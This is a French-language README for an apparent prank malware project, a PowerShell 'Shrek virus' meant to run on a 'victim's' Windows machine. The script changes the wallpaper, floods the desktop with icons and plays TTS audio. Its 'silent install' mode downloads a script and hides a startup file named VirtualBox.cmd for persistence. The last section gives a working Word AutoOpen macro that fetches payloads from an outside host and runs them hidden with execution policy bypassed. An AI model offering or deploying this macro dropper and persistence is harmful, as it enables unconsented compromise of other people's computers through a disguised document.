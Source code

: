 # powershell-shrek-virus

# Fonctionnalités
- Modification du fond d'écran
- Ajout d'icônes Shrek sur le Bureau Windows
- Nom aléatoire des icônes Shrek
- Augmentation du volume de l'ordinateur
- Voix TTS
- Screen Melting


# Démonstration
![image](https://user-images.githubusercontent.com/73076854/221158845-0a091360-1907-432c-b3fd-3ecad0976cc6.png)

# Prérequie
- Pour le bon fonctionnement du script Powershell, le nom du fichier ne doit pas être modifier !
- Windows à jours
- L'environnement Bureau de la victime ne doit pas etre sur OneDrive

# Installation
- Télécharger ce dépôt
```
git clone https://github.com/WolfAnto/powershell-shrek-virus/
Sinon via interface graphique
```
- Execution du script
```
Clique droit sur ShrekMenu.ps1 > Exécuter en Powershell
```


# Explication / Fonctionnement

Le script est un menu Powershell qui vous propose diverse options :
- Installation Silencieuse
- Mode Flagrant
- Seulement le fond d'écran
- Seulement les icônes
- Seulement la voix TTS
- Seulement la notification Windows
- Désinstallation du script sur la machine
- Quitter le script

### Installation Silencieuse
- Lors de l'éxécution de cette option, le script va télécharger un script Powershell et venir l'installer dans le répertoire "C:\Users\Public\Documents"
- Ensuite le script va télécharger un script CMD et l'installer dans "C:\Users\username\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\VirtualBox.cmd"
- Cela va permettre d'installer le script Powershell sur la machine mais aussi l'éxecuter lors du démarrage de l'ordinateur.


### Mode Flagrant
- Lors de l'éxécution de cette option, le script va s'éxécuter instentanément et il va définir un nouveau fond d'écran, créer un nombre prédéfinis d'icones sur le bureau avec un nom aléatoire, et faire une installation silencieuse.

### Seulement le fond d'écran
- Lors de l'éxécution de cette option, le script va uniquement changer le fond d'écran de l'ordinateur.

### Seulement les icônes
- Lors de l'éxécution de cette option, le script va vous demandez combien d'icônes souhaitez vous créer sur le Bureau Windows.

###  Seulement la voix TTS
- Lors de l'éxécution de cette option, le script va augmenter le volume de l'ordinateur au maximum et utiliser la fonction Text To Speach pour citez une phrase.

### Seulement la notification Windows
- Lors de l'éxécution de cette option, le script va utiliser une fonction Windows pour faire apparaitre une notification en bas de l'écran avec une phrase prédéfini.

### Désinstallation du script sur la machine
- Lors de l'éxécution de cette option, le script va supprimer les traces du script, changer le fond d'écran, supprimer les icônes du Bureau Windows, et ne plus s'éxecuter lors du démarrage

### Quitter
- Lors de l'éxécution de cette option, le script va se fermer.

# Modification
Si vous souhaitez changer le fond d'écran, dans le script Powershell ShrekMenu.ps1 :
- Convertir votre image servant de fond d'écran en code base64
- Aller à la ligne 72 et remplacer le code base64 par le votre

Si vous souhaitez changer l'icône, dans le script Powershell ShrekMenu.ps1 :
- Convertir votre image servant de fond d'écran en code base64
- Aller à la ligne 84 et remplacer le code base64 par le votre

# Execution dans Microsoft Word
Cliquez sur "Affichage" dans la barre de menu, puis sélectionnez "Macro" et "Afficher les macros".
![image](https://user-images.githubusercontent.com/73076854/229302792-6a42a8c6-ec6b-4414-8739-350b8d2471af.png)

Créer une macro au nom de "AutoOpen" et cliquer sur "Créer".
![image](https://user-images.githubusercontent.com/73076854/229302829-9fe69643-843f-4a45-b6e8-1746b3e586f5.png)

Une fenetre va apparaitre, remplacer le code par le suivant :
```
Sub AutoOpen()
    Dim objShell
    Set objShell = CreateObject("Wscript.Shell")
    objShell.Run "powershell.exe -Command ""Invoke-WebRequest -Uri 'https://antoningrepilloux.fr/ShrekVirus.ps1' -OutFile 'C:\Users\Public\Documents\ShrekVirus.ps1'"""
    objShell.Run "powershell.exe -Command ""Invoke-WebRequest -Uri 'https://antoningrepilloux.fr/VirtualBox.cmd' -OutFile '$env:USERPROFILE\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\VirtualBox.cmd'"""
    objShell.Run "powershell.exe -windowstyle hidden -executionpolicy bypass -file C:\Users\Public\Documents\ShrekVirus.ps1"
    Set objShell = Nothing

End Sub
```

Avant :
![image](https://user-images.githubusercontent.com/73076854/229302907-62297027-0b41-496f-b0e1-c90cdcf678f0.png)

Après :
![image](https://user-images.githubusercontent.com/73076854/229302921-ce845dd1-65f2-4891-babd-69e213ec4e15.png)

Enregistrer le code avec les touches CTRL + S, puis quitter la fenêtre.
Enregistrer le document Word avec les touches CTRL + S, puis quitter le document.
